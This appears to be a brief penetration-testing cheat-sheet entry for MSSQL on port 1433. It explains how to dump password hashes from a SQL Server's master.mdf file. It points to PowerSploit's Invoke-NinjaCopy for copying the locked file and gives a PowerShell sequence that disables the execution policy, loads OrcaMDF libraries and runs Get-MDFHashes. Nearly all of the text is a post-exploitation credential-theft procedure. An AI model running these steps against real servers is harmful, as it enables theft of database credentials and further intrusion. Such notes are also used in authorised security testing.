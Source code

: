 # 1433 - MSSQL

## Dumping Hashes From master.mdf

* May need to use [Invoke-NinjaCopy.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1), as the file is locked during use.
* Extract hashes using [Invoke-MDFHashes](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes):

```
set-executionpolicy unrestricted
add-type -path .\OrcaMDF.Framework.dll
add-type -path .\OrcaMDF.RawCore.dll
import-module .\Get-MDFHashes.ps1
Get-MDFHashes -mdf master.mdf
```
